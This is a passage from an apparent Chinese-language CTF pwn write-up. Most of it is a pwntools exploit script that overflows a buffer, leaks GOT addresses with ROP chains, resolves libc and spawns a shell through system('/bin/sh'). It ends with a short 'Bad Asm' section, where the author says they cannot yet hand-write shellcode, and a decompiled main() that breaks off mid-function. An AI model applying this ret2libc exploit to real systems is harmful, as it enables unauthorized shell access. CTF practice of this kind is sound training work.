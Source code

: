 ```python
    payload1 = cyclic(0x10 + 0x8) + p64(pop_rdi) + p64(1) + p64(pop_rsi_pop_r15) + p64(write_got+i) + p64(1) + p64(
        write_plt) + p64(main)
    print(payload1)
    payload1 = decrypt(payload1, key)
    print(payload1)
    io.sendline(payload1)
    single = io.recvuntil(b"It")[-3:-2]
    addr += single
write_addr = u64(addr)
addr = b''
for i in range(0,8):
    io.recvuntil(b"thing")
    payload1 = cyclic(0x10 + 0x8) + p64(pop_rdi) + p64(1) + p64(pop_rsi_pop_r15) + p64(read_got+i) + p64(1) + p64(
        write_plt) + p64(main)
    print(payload1)
    payload1 = decrypt(payload1, key)
    print(payload1)
    io.sendline(payload1)
    single = io.recvuntil(b"It")[-3:-2]
    addr += single
read_addr = u64(addr)
print(hex(write_addr))
print(hex(read_addr))

#base_addr = addr - libc.symbols['read']
#system = base_addr + libc.symbols['system']
#bin_sh = base_addr + next(libc.search(b'/bin/sh'))

libc = LibcSearcher('write',write_addr)
libc.add_condition('read',read_addr)
base_addr = read_addr - libc.dump('read')
system = base_addr + libc.dump('system')
bin_sh = base_addr + libc.dump('str_bin_sh')

print(hex(system))
print(hex(bin_sh))
io.recvuntil(b'thing')
payload2 = cyclic(0x10+0x8) + p64(pop_rdi) + p64(bin_sh) + p64(ret) + p64(system)
print(payload2)
payload2 = decrypt(payload2, key)
print(pidof(io))
pause()
io.sendline(payload2)
io.interactive()
```
### Bad Asm
这道题不太会写，为什么呢？
因为我不太会手写shellcode😰只会用shellcraft😋
等我去学，学完回来写  
```c
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  int i; // [rsp+8h] [rbp-18h]
  int v4; // [rsp+Ch] [rbp-14h]
  void *buf; // [rsp+10h] [rbp-10h]
  char *dest; // [rsp+18h] [rbp-8h]

  init(argc, argv, envp);
  label();
  buf = mmap(0LL, 0x1000uLL, 3, 34, -1, 0LL);
```
